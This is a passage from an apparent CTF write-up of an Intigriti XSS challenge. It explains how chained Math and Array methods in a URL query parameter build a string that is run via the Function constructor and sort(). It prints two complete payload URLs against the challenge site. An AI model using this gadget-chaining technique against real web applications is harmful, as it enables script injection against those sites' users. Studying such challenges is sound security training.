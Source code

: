 ```js
> [].toString()
< ''
```

But how do we get the empty array? We could just call <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Array" target="_blank">Array</a> constructor with a 0 argument which means creating an empty array and then we could apply join with that empty array as argument. and in order to access to the `Array` constructor we could just access the seeds array and then it’s constructor to get it. Also to get the 0, we could just run `Math.floor` since the returned number from the last shift is 0.62536 making it 0. This is the payload to do so: `Math.floor,Math.seeds.constructor,Math.seeds.join`.

The payload is:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join
```

And the result is

![Final Steps To Get Final String](/static/images/intigriti-0823/steps_till_payload_string.png)

Now the only thing to do is to pass that string to the `Function()` we talked about earlier and call it using `sort()` array method.

### Joining it all together

Joining it all together, this is the last payload:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join,Math.constructor.constructor,Math.seeds.sort
```
